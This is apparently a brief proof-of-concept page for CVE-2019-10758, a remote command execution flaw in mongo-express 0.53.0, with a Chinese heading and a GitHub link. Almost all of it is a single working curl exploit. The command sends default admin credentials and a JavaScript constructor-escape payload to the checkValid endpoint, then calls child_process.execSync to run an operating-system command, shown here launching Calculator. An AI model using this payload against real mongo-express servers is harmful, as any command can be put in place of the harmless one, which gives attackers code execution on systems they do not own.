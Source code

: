 ### mongo-express@0.53.0远程命令执行(**CVE**-2019-10758)

```
curl 'http://localhost:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("/Applications/Calculator.app/Contents/MacOS/Calculator")'
```

https://github.com/masahiro331/CVE-2019-10758